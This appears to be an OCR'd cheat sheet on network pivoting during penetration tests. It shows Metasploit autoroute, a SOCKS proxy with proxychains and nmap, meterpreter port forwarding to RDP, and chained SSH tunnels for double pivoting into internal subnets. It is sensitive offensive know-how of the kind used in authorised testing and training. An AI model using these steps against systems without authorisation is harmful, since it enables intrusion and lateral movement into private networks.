 ## Metasploit Pivoting

### 1. Autoroute Module
```bash
# In meterpreter session
meterpreter > run autoroute -s 192.168.1.0/24

# Or use post module
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 192.168.1.0/24
run

# List routes
route print
```

### 2. SOCKS Proxy with Metasploit
```bash
# Set up SOCKS proxy
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run -j

# Configure proxychains
echo "socks4 127.0.0.1 9050" >> /etc/proxychains4.conf

# Use proxy
proxychains nmap -sT -Pn 192.168.1.10
```

### 3. Port Forward with Metasploit
```bash
# In meterpreter session
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.1.10
meterpreter > portfwd list

# Connect to forwarded port
rdesktop localhost:3389
```

## Double Pivoting

### 1. Chain Multiple Pivots
```bash
# First pivot: Attacker -> DMZ Server
ssh -f -N -D 9050 -i key1 user@dmz_server

# Second pivot: DMZ -> Internal Network
# On DMZ server, create second tunnel
ssh -f -N -D 9051 -i key2 user@internal_server

# Configure proxychains for double pivot
[ProxyList]
socks4 127.0.0.1 9050
socks4 127.0.0.1 9051
```
